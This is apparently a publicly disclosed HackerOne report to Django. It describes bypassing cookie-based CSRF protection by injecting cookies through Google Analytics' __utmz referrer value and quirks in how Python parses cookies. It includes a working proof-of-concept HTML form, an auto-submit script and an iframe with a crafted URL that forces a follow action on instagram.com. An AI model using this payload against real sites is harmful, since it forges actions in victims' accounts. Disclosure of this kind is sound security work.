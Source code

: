 # CSRF protection bypass on any Django powered site via Google Analytics

## Report Details
- **Report ID**: 26647
- **URL**: https://hackerone.com/reports/26647
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2014-09-01T08:28:27.353Z
- **Disclosed**: 2016-09-26T19:29:10.967Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: django

## Vulnerability Information
I shall explain all the steps to create the final PoC in order to be more clear.

Part 1. Cookie Injection via Google Analytics 
---------------------
(Reported to Google, rewarded, still working)

*   Google Analytics sets the cookie to track user source:
   `__utmz=123456.123456789.11.2.utmcsr=[HOST]|utmccn=(referral)|utmcmd=referral|utmcct=[PATH]`
   For example:
   `__utmz=123456.123456789.11.2.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/path/`

*   User fully controls path in Referer and it is not filtered before being put in __utmz

Part 2. Cookie parsing peculiarities by different web servers
---------------------
*   A typical Cookie sent by a web browser looks like this: 
   Cookie: param1=value1; param2=value2;

*   Many web servers accept cookies delimited not only by semicolons but also by commas: 
   Cookie: param1=value2, param2=value2
   Cookie: param1=value2,param2=value2

*   Python + Django handle cookies with incorrect regular expression that allows to use characters [ \ ] as delimiters: 
   Cookie: param1=value1]param2=value2

https://docs.python.org/3/library/http.cookies.html
http://hg.python.org/cpython/file/3.4/Lib/http/cookies.py#l432
http://tools.ietf.org/html/rfc2109
http://tools.ietf.org/html/rfc2068

Example:
```
>>> from http import cookies
>>> C = cookies.SimpleCookie()
>>> C.load('__utmz=blah]csrftoken=x')
>>> C
<SimpleCookie: csrftoken='x'>
```

Part 3. Cookie handling peculiarities in different web browsers 
---------------------
(Reported to Google, won't fix)
*   For all the web browsers except Safari characters of space, comma, and [ \ ] can be used as cookie values

*   Chrome handles only a limited number of cookie-attributes, e.g.: 
   Set-Cookie: test=test; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=blah.blah.blah.google.com;
   will set cookie for .google.com but not for blah.blah.blah.google.com

Combining all these facts
---------------------

Provided that:
* A site uses Google Analytics
* This site is hosted by a web server that has some of the aforementioned cookie parsing peculiarities (e.g. Django)
* This site implements Cookie based CSRF protection (a value in Cookie and some request parameter must be equal)

Then:
* We can set new arbitrary cookies or redefine the values of existing ones
* This site is vulnerable to CSRF protection bypass


The principal problem of __utmz cookie is that it is set for six months and is not refreshed. This problem can be solved in Google Chrome if you find a subdomain with Google Analytics and rewrite attribute "domain" using the peculiarity that has been described in part 3 with the value ".site.com".

In other browsers the vulnerability can be exploited by cookie injection at the moment of __utmz refreshing.

PoC
---------------------

Vulnerability exploitation on instagram.com with Google Chrome
(Reported to Facebook, redirected to Django Team)

* Open Google Chrome in incognito mode
* Authenticate on instagram.com
* Click the link and wait some seconds
* Result - follow http://instagram.com/black2fan

http://blackfan.ru/facebookbugbounty/nouysqaqfbskgobuqkknoitvyqmjgony_instagram.html
Source:
```
<form 
action="http://instagram.com/web/friendships/1312928755/follow/?ref=emptyfeed" 
id="csrf" 
method="POST">
      <input type="hidden" name="csrfmiddlewaretoken" value="x" />
      <input type="submit" value="Submit request" />
</form>

<script>
      function xxx() {
        document.getElementById('csrf').submit();
      }
</script>

<iframe 
onload="xxx()" 
src="http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/"/>
```

Description:
*   A user authenticates on instagram.com

*   We make him visit the link below assuming that he has not visited blog.instagram.com and he doesn't have __utmz set on this subdomain:
   http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/
   Cookie is rewritten with new path and domain, as a result cookie is set for .instagram.com:
   __utmz=90378079.1401435337.1.1.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/r/,]csrftoken=x,

*   At this moment request to the web server will make it believe that cookie __utmz consists of incorrect cookie and CSRF token equals to "x"

*   Submit follow form using CSRF-token "x"


## Attachments
No attachments
